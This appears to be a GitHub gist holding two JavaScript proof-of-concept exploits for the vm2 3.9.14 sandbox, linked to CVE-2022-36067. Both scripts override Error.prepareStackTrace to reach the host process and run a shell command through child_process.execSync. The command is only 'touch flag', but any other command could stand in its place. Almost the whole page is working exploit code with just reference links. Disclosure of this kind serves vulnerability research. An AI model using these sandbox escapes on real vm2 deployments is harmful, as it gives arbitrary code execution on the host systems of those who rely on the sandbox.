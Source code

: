 
//
//  https://gist.github.com/seongil-wi/2a44e082001b959bfe304b62121fb76d
//  https://www.oxeye.io/resources/vm2-sandbreak-vulnerability-cve-2022-36067 
//


vm2_3.9.14_exploit_1.js

```
const {VM} = require("vm2");
let vmInstance = new VM();

const code = `
Error.prepareStackTrace = (e, frames) => {
    frames.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch flag'); 
};
(async ()=>{}).constructor('return process')()
`

vmInstance.run(code);
vm2_3.9.14_exploit_2.js
const {VM} = require("vm2");
let vmInstance = new VM();

const code = `
Error.prepareStackTrace = (e, frames) => {
    frames.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch flag'); 
};
async function aa(){
    eval("1=1")
}
aa()
`

vmInstance.run(code);

